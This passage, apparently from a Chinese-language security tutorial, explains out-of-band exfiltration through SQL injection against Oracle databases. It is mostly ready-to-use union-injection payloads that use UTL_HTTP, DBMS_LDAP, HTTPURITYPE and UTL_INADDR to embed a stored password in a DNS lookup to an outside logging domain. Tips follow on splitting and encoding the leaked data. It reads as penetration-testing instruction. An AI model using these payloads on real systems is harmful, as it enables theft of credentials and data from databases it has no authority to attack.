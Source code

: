 Oracle的利用方式就太多了，因为Oracle能够发起网络请求的模块是很很多的。

这里就列举几个吧。

UTL_HTTP.REQUEST

```
select name from test_user where id =1 union SELECT UTL_HTTP.REQUEST((select pass from test_user where id=1)||'.nk40ci.ceye.io') FROM sys.DUAL; 
```

[![img](http://s5.51cto.com/oss/201802/10/0f404b42740140e9f1ee84b497964fe7.jpg)](http://s5.51cto.com/oss/201802/10/0f404b42740140e9f1ee84b497964fe7.jpg)

[![img](http://s1.51cto.com/oss/201802/10/54b1c75cce4c77b8b9db813c83984aae.png)](http://s1.51cto.com/oss/201802/10/54b1c75cce4c77b8b9db813c83984aae.png)

DBMS_LDAP.INIT

```
select name from test_user where id =1 union SELECT DBMS_LDAP.INIT((select pass from test_user where id=1)||'.nk40ci.ceye.io',80) FROM sys.DUAL; 
```

HTTPURITYPE

```
select name from test_user where id =1 union SELECT HTTPURITYPE((select pass from test_user where id=1)||'.xx.nk40ci.ceye.io').GETCLOB() FROM sys.DUAL; 
```

UTL_INADDR.GET_HOST_ADDRESS

```
select name from test_user where id =1 union SELECT UTL_INADDR.GET_HOST_ADDRESS((select pass from test_user where id=1)||'.ddd.nk40ci.ceye.io') FROM sys.DUAL;  
```

tips：oracle是不允许select语句后面没有表的，所以此处可以跟一个伪表dual

Oracle其他一些能够发起网络请求的模块：

```
UTL_HTTP  UTL_TCP  UTL_SMPTP  UTL_URL 
```

**五、总结**

- 有些函数的使用操作系统的限制。
- dns查询有长度限制，所以必要的时候需要对查询结果做字符串的切割。
- 避免一些特殊符号的产生，最好的选择就是数据先编码再带出。
- 注意不同数据库的语法是有差异的，特别是在数据库拼接的时候。
- 有些操作是需要较高的权限。